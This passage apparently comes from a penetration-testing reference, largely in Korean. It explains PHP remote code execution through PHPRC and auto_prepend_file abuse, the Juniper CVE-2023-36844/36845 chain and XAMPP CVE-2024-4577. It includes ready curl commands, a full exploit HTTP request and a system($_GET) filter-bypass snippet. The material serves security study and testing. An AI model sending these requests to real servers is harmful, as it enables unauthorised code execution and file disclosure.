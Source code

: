 If you find a vulnerability that allows you to **modify env variables in PHP** (and another one to upload files, although with more research maybe this can be bypassed), you could abuse this behaviour to get **RCE**.

* [**`LD_PRELOAD`**](../../../linux-hardening/privilege-escalation/#ld\_preload-and-ld\_library\_path): 이 환경 변수는 다른 바이너리를 실행할 때 임의의 라이브러리를 로드할 수 있게 해줍니다 (이 경우에는 작동하지 않을 수 있습니다).
* **`PHPRC`** : PHP에 **구성 파일의 위치**를 지시합니다. 일반적으로 `php.ini`라고 불립니다. 자신의 구성 파일을 업로드할 수 있다면, `PHPRC`를 사용하여 PHP가 이를 가리키도록 하십시오. 두 번째 업로드된 파일을 지정하는 **`auto_prepend_file`** 항목을 추가하십시오. 이 두 번째 파일은 일반 **PHP 코드**를 포함하며, 이는 다른 코드가 실행되기 전에 PHP 런타임에 의해 실행됩니다.
1. 우리의 쉘코드를 포함하는 PHP 파일을 업로드합니다.
2. 1단계에서 업로드한 파일을 실행하도록 PHP 전처리기에 지시하는 **`auto_prepend_file`** 지시어를 포함하는 두 번째 파일을 업로드합니다.
3. 2단계에서 업로드한 파일로 `PHPRC` 변수를 설정합니다.
* 이 체인을 실행하는 방법에 대한 더 많은 정보는 [**원본 보고서**](https://labs.watchtowr.com/cve-2023-36844-and-friends-rce-in-juniper-firewalls/)에서 확인하십시오.
* **PHPRC** - 또 다른 옵션
* 파일을 **업로드할 수 없는 경우**, FreeBSD에서 **`stdin`**을 포함하는 "파일" `/dev/fd/0`를 사용할 수 있습니다:
* `curl "http://10.12.72.1/?PHPRC=/dev/fd/0" --data-binary 'auto_prepend_file="/etc/passwd"'`
* 또는 RCE를 얻기 위해 **`allow_url_include`**를 활성화하고 **base64 PHP 코드**로 파일을 전처리합니다:
* `curl "http://10.12.72.1/?PHPRC=/dev/fd/0" --data-binary $'allow_url_include=1\nauto_prepend_file="data://text/plain;base64,PD8KICAgcGhwaW5mbygpOwo/Pg=="'`
* 기술 [**이 보고서**](https://vulncheck.com/blog/juniper-cve-2023-36845)에서.

### XAMPP CGI RCE - CVE-2024-4577

웹 서버는 HTTP 요청을 구문 분석하고 이를 PHP 스크립트에 전달하여 [`http://host/cgi.php?foo=bar`](http://host/cgi.php?foo=bar\&ref=labs.watchtowr.com)와 같은 요청을 실행합니다. 이는 `php.exe cgi.php foo=bar`로 매개변수 주입을 허용합니다. 이는 본문에서 PHP 코드를 로드하기 위해 다음 매개변수를 주입할 수 있게 해줍니다:
```jsx
-d allow_url_include=1 -d auto_prepend_file=php://input
```
또한, PHP의 후속 정규화로 인해 0xAD 문자를 사용하여 "-" 매개변수를 주입하는 것이 가능합니다. [**이 게시물**](https://labs.watchtowr.com/no-way-php-strikes-again-cve-2024-4577/)의 익스플로잇 예제를 확인하세요.
```jsx
POST /test.php?%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input HTTP/1.1
Host: {{host}}
User-Agent: curl/8.3.0
Accept: */*
Content-Length: 23
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive

<?php
phpinfo();
?>

```
## PHP Sanitization bypass & Brain Fuck

[**이 게시물에서**](https://blog.redteam-pentesting.de/2024/moodle-rce/) 매우 적은 문자로 브레인 펑크 PHP 코드를 생성하는 훌륭한 아이디어를 찾을 수 있습니다.\
또한 여러 검사를 우회할 수 있는 함수를 실행하는 흥미로운 방법도 제안됩니다:
```php
(1)->{system($_GET[chr(97)])}
```
## PHP 정적 분석

